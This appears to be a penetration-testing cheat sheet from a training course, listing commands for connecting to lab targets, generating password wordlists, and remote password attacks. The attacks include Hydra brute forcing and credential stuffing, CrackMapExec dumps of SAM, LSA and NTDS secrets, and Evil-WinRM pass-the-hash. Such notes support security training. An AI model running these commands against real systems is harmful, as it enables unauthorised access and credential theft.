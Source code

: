 ## Connecting to Target

| Command | Description |
|---------|-------------|
| `xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `evil-winrm -i <ip> -u user -p password` | Uses Evil-WinRM to establish a PowerShell session with a target. |
| `ssh user@<ip>` | Uses SSH to connect to a target using a specified user. |
| `smbclient -U user \\\\\\<ip>\\\\SHARENAME` | Uses smbclient to connect to an SMB share using a specified user. |
| `python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/` | Uses smbserver.py to create a share on a Linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

## Password Mutations

| Command | Description |
|---------|-------------|
| `cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist` | Uses cewl to generate a wordlist based on keywords present on a website. |
| `hashcat --force password.list -r custom.rule --stdout > mut_password.list` | Uses Hashcat to generate a rule-based word list. |
| `./username-anarchy -i /path/to/listoffirstandlastnames.txt` | Uses username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential usernames. |
| `curl -s https://fileinfo.com/filetypes/compressed \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt` | Uses Linux-based commands curl, awk, grep, and tee to download a list of file extensions to be used in searching for files that could contain passwords. |



## Remote Password Attacks

| Command | Description |
|---------|-------------|
| `crackmapexec winrm <ip> -u user.list -p password.list` | Uses CrackMapExec over WinRM to attempt to brute force usernames and passwords specified on a target. |
| `crackmapexec smb <ip> -u "user" -p "password" --shares` | Uses CrackMapExec to enumerate SMB shares on a target using a specified set of credentials. |
| `hydra -L user.list -P password.list <service>://<ip>` | Uses Hydra with a user list and password list to attempt to crack a password over the specified service. |
| `hydra -l username -P password.list <service>://<ip>` | Uses Hydra with a username and password list to attempt to crack a password over the specified service. |
| `hydra -L user.list -p password <service>://<ip>` | Uses Hydra with a user list and password to attempt to crack a password over the specified service. |
| `hydra -C <user_pass.list> ssh://<IP>` | Uses Hydra with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam` | Uses CrackMapExec with admin credentials to dump password hashes stored in SAM, over the network. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa` | Uses CrackMapExec with admin credentials to dump LSA secrets, over the network. It is possible to get clear-text credentials this way. |
| `crackmapexec smb <ip> -u <username> -p <password> --ntds` | Uses CrackMapExec with admin credentials to dump hashes from the NTDS file over a network. |
| `evil-winrm -i <ip> -u Administrator -H "<passwordhash>"` | Uses Evil-WinRM to establish a PowerShell session with a Windows target using a user and password hash. This is one type of Pass-The-Hash attack. |



## Windows Local Password Attacks
